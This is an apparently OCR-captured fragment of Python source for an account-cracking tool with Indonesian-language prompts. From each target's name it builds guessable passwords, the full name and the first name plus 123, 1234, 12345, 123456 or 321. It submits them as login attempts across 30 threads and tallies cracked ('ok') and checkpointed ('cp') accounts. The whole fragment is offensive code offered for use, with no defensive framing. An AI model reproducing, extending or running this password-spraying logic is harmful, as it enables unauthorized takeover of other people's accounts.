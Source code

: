 			id2.insert(xnxx,acak)
	else:
		baz_anim(f'{puti}└── {mer}pilih yang bener')
		waktu(1)
		atur_duluh()
		exit()
		
	print(f'{xxx}─────────────────────────────')
	print('└── enter untuk mulai crack')
	print(f'{xxx}─────────────────────────────')
	metodh = input(f'')
	if metodh in ['',' ']:
		xbz.append('metodh1')
	else:
		xbz.append('metodh1')
	passwrdh()

def passwrdh():
	global prog,des
	prog = Progress(SpinnerColumn('earth'),TextColumn('{task.description}'),BarColumn(),TextColumn('{task.percentage:.0f}%'))
	des = prog.add_task('',total=len(id))
	with prog:
		with tred(max_workers=30) as gas_krek:
			for aldous in id2:
				idf,nmf = aldous.split('|')[0],aldous.split('|')[1].lower()
				frs = nmf.split(' ')[0]
				pwv = []
				pwt = []
				if len(nmf)<6:
					if len(frs)<3:
						pass
					else:
						pwv.append(frs+'321')
						pwv.append(frs+'123')
						pwv.append(frs+'1234')
						pwv.append(frs+'12345')
						pwv.append(frs+'123456')
				else:
					if len(frs)<3:
						pwv.append(nmf)
					else:
						pwv.append(nmf)
						pwv.append(frs+'321')
						pwv.append(frs+'123')
						pwv.append(frs+'1234')
						pwv.append(frs+'12345')
						pwv.append(frs+'123456')
				if '><v><' in pwt:
					for xpwn in pwn:
						pwv.append(xpwn)
				else:pass
				if 'metodh1' in xbz:
					gas_krek.submit(metodh1,idf,pwv)
				else:
					gas_krek.submit(metodh1,idf,pwv)
		yhg = '0'
		print(f'{xxx}─────────────────────────────')
		print(f'{hijo}+ {puti}akun ok : {hijo}%s{xxx} '%(ok))
		print(f'{kun}+ {puti}akun cp : {kun}{yhg}{xxx} ')
		print(f'{xxx}─────────────────────────────')
